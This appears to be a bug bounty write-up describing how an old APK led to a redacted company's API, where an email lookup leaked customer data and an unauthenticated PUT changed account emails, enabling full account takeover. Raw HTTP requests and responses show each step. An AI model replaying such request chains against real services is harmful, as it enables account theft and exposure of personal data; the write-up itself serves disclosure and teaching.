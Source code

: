 ```yaml
---
description: How I found a critical bug in API...
title: API Misconfiguration lead to Full ATO
date: 2024-09-02 08:00:00 -0600                           # Change the date to match completion date
categories: [WebHacking]                   # Change Templates to Writeup
tags: [bugbouny, redacted, webhacking, hacking]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image:                # Add infocard image here for post preview image
---
```


Hey ! Today I’m going to share with you an amazing found I made on a big company chaining multiple bugs and misconfigurations on their API :)

## Let's go !

![enter image description here](https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExMGgxdmJpdTBiMHlxbnFtcW1pbzF1ajVwNWx2dWUzbGtyOGhqaDVrciZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/CjmvTCZf2U3p09Cn0h/giphy.gif)

First of all, when I recon a target, I like looking for lost apks on obscure websites on the internet

So I went to my favorite apk websites :  [https://apkcombo.com](https://apkcombo.com),  [https://apkmonk.com](https://apkmonk.com)  and  [https://apkpure.com](https://apkpure.com)

![enter image description here](https://apkpure.net/static/imgs/website_screen_v1.jpg)


After some research, I found an interesting APK :  myapp.redacted last updated on 2016

So I downloaded the APK, launched Nox and BurpSuite and started hacking

![enter image description here](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExbW5qdGg4cG9hcGxubWc2dDdsMGdsaWlmbmF5ZTNsOHRmcWFkcnp0ciZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/YQitE4YNQNahy/giphy.gif)

## Browsing the APK

I browsed through the APK for about ten minutes and it literally seemed broken. It used the api “http://appli.redacted.com"

Using BurpSuite Mapping, I found a very interesting endpoint: /fr/v2.0/Clients/%2520/ 👀👀

And after a few tries, I understood that I had to add the user’s email, so I made the request :

    GET /fr/v2.0/Clients/%2520/victim@gmail.com HTTP/1.1 
    Host: appli.redacted.com 
    Connection: close 
    Accept-Encoding: gzip, deflate 
    User-Agent: okhttp/3.12.1

And I got the following response :

    HTTP/1.1 200 OK 
    Server: Apache X-Powered-By: PHP/5.4.45-0+deb7u14 
    Cache-Control: no-cache, must-revalidate 
    Expires: Mon, 26 Jul 1997 05:00:00 GMT 
    Content-Length: 595 
    Connection: close 
    Content-Type: application/json 
    
    [{"code":"8000040264945","lat":0,"long":0,"nom":"Sakayanagi","pays":"FR","code_postal":"86100","prenom":"Arisu","email":"victim@gmail.com","newsletter":1,"date_creation":"2023-11-20T17:22:20","mobile":"0689123912","statut":true,"type":"1","secteur":"","raison_sociale":"","code_ape":"","mag_prefere":"0000001525","code_identite":"","kbis":"","date_kbis":"","devices":[{"uuid":"46C61A4B-D390-5BBD-8C20-BF2702327716","token":"254EF7C844BF25B845D7B1D49DD22753407AC6D989028B589931935FC2D352CB","actif":"1","alerte_promo":"1","alerte_cata":"1","alerte_mag":"1","tracking_id":"","android":"0"}]}]

**FIRST BUG : PII Leakage via API Misconfiguration**

![enter image description here](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExOHdneHJzZHprZWZxaXdsaXo0OTNjODczdXh6ZW01cWxjcmxmcWpvMyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/kdQuvu0LtCEjxYgTcS/giphy.gif)

## No done yet... !

So from that moment I decided to go down the rabbit hole to find other vulnerabilities

And after some research I found another endpoint that used a PUT method :

    PUT /fr/v2.0/Clients/8000040264945 HTTP/1.1 
    Content-Type: application/x-www-form-urlencoded 
    Content-Length: 401 
    Host: appli.redacted.com 
    Connection: close 
    Accept-Encoding: gzip, deflate 
    User-Agent: okhttp/3.12.1 
    
    type=1&email=victim@gmail.com&device=e91480e2a8eb83af&android=1&nom=&prenom=&cp=86100&mobile=&pays=&token=dZJKFETVSRWwzz4olPqvF0%3AAPA91bEZA4Mvt5AttKlMRzfQ70nT-Hv7BHBlwix8WI9taP91n-_XEnMHnegOVQfNn0No6XDEuvPn_-rP7MufTLLta3ZilKYVjP0-rp9X_krK0yTLTgbasPYSP5s9kQKkG_PCntlQmkma&code_identite=&mag_prefere=0000001525&newsletter=1&alerte_mag=1&alerte_cata=1&alerte_promo=1&lat=&long=

This request was logged when I tried to modify my VIP card details on the APK (8000040264945)

BUTTT, and this is the whole point of this chaining, I could obtain the VIP card code of any user from their email with the previous request. I think you understand where I’m going with this… 😈

I quickly created another account on the platform, I retrieved my VIP code with the first request then in the second request I replaced my email address with  [attacker@gmail.com](mailto:attacker@gmail.com)

And I got the following response :

    HTTP/1.1 200 OK 
    Server: Apache 
    X-Powered-By: PHP/5.4.45-0+deb7u14 
    Cache-Control: no-cache, must-revalidate 
    Expires: Mon, 26 Jul 1997 05:00:00 GMT 
    Content-Length: 582 
    Connection: close 
    Content-Type: application/json 
    
    [{"code":"8000040264956","lat":0,"long":0,"nom":"DUJARDIN","pays":"FR","code_postal":"75002","prenom":"Victim","email":"attacker@gmail.com","newsletter":1,"date_creation":"2023-12-10T10:26:27","mobile":"+33655421789","statut":"actif","type":"1","secteur":"","raison_sociale":"","code_ape":"","mag_prefere":"","code_identite":"","kbis":"","date_kbis":"","devices":[{"uuid":"46B61A3B-D390-4CCD-8C20-BF2701317816","token":"254EF7C844BF78B845D7B1D09DD22753407AC6D459028B578731935FC2D352BB","actif":"1","alerte_promo":"1","alerte_cata":"1","alerte_mag":"1","tracking_id":"","android":"0"}]}]

![enter image description here](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExdDI2ZXQ0ZGM5eWRpOWJnaWxtcThmajI0ZWh1cGRpdm5nOHpmN3F3OCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYtVHSxngR3lC/giphy.gif)


## Achieve Full 0-click ATO

After that, I created an account on the platform with  [attacker@gmail.com](mailto:attacker@gmail.com), I checked my email and when I connected I came across my previous account (the one I replaced email with the PUT request) !! 🎉🎉

And that’s the end of the story on how my extroardinary chaining allowed me to achieve an account takeover.

## Tips

1 - Always look for APKs belong to the company
2 - Privilegate old/lost APKs

